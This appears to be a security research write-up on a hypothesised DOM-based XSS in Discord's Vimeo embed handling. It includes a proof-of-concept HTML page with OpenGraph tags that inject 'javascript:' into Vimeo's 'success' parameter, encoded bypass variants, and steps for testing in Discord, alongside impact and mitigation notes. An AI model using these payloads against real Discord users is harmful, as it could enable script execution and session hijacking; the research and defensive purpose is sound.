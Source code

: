 # Discord Vimeo Embed DOM XSS Research

## Overview
This document details research into potential DOM-based XSS vulnerabilities in Discord's Vimeo video embedding functionality. The research focuses on exploiting the interaction between Discord's embed parser and Vimeo's player URL parameters.

## Vulnerability Hypothesis
Discord processes OpenGraph meta tags when embedding Vimeo content. The `og:video:url` meta tag potentially allows for JavaScript injection through Vimeo's URL parameters, specifically the `success` parameter in private video URLs.

## Technical Details

### Target URL Structure
```
https://player.vimeo.com/video/[VIDEO_ID]/login/private?success=[PAYLOAD]
```

### Relevant Code Patterns
Discord's URL validation for Vimeo appears to check the hostname:
```javascript
function checkValidURL(url) {
    let parsed = new URL(url);
    if (parsed.hostname == "vimeo.com") {
        return true;
    }
}
```

### Attack Vector
1. The exploit attempts to bypass URL validation by maintaining the legitimate Vimeo domain
2. Injection point is in the `success` parameter of private video URLs
3. Uses OpenGraph meta tags to control how Discord processes the embed

### Proof of Concept
```html
<!DOCTYPE html>
<html>
<head>
    <meta property="og:site_name" content="Vimeo">
    <meta property="og:type" content="video.other">
    <meta property="og:image" content="https://i.vimeocdn.com/video/test/maxresdefault.jpg">
    <meta property="og:video:url" content="https://player.vimeo.com/video/123456789/login/private?success=xburl=javascript:alert(document.domain)">
    <meta property="og:video:type" content="text/html">
    <meta property="og:video:width" content="1280">
    <meta property="og:video:height" content="720">
</head>
</html>
```

## Testing Methodology

1. **Setup**
   - Host the PoC HTML file on a public server
   - Ensure the server sends correct content-type headers

2. **Test Cases**
   a. Basic XSS Payload:
   ```
   success=javascript:alert(document.domain)
   ```
   
   b. URL-encoded Payload:
   ```
   success=javascript%3Aalert(document.domain)
   ```
   
   c. Double-encoded Payload:
   ```
   success=javascript%253Aalert(document.domain)
   ```

3. **Verification Steps**
   - Share the URL in Discord
   - Monitor if the embed renders
   - Check if JavaScript executes
   - Observe network requests
   - Document any error messages

## Potential Impact
If successful, this vulnerability could allow:
- Execution of arbitrary JavaScript in Discord client
- Access to Discord's client-side API
- Potential access to user data
- Session hijacking

## Mitigation Suggestions
1. Implement strict URL parameter validation
2. Sanitize success callback parameters
3. Use Content Security Policy headers
4. Implement URL parameter allowlist
5. Validate video IDs against Vimeo's API

## Additional Notes
- Discord's embed system processes OpenGraph meta tags
- Vimeo's player accepts various URL parameters
- The success parameter is typically used for redirect URLs
- Multiple encoding layers may bypass filters

## Test Environment
- Discord Client Version: Latest
- Browser: Chrome/Firefox latest
- Test URL: https://ctf.jxint.vercel.app/discord/discord_bug.html

## References
1. Discord Embed Documentation
2. Vimeo Player SDK Documentation
3. OpenGraph Protocol Specification
4. Common DOM XSS Patterns

---
Research Date: 2024-12-15
Status: Under Investigation

